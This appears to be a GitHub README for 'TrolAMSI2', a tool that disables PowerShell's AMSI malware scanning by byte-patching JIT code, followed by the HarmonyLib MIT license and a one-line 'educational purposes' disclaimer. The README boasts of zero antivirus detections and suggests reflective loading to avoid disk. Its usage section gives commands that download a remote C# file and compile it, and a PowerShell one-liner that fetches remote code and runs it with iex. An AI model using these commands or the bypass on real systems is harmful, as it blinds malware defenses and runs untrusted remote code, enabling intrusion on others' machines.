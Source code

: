## TrolAMSI2
Bypass powershell amsi by "byte patching" the init method -> basically break it. <br>
Afterwhich, we manually call UnInit and when it retries to re-Init properly, it fails <br>
Patches JIT code so slightly more stealthy than patching amsi.dll BUT uses the same patching techniques which may get flagged (eg. virtualprotect) <br>

**DLL Method (uses HarmonyLib )**
- TrollAmsi2.cs -> compile into a .dll and use with 0Harmony.dll
-  Both dll are 0/72 on virus total and clean on hybrid-analysis
- If you are concerned with dropping on disk, ofcourse you can reflectively load 

**powershell one liner**
- trollamsi2.ps1 -> can run directly on powershell
- Not as stealthy as TrollAMSI due to the use of VirtualProtect which gets flagged by some AV/EDRs during the $lib add-type
- if flagged, use the c# code in the same file and compile into dll and use. Higher chance of success
  
## Usage 
```
#DLL method 
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()

#powershell one liner
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI2/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
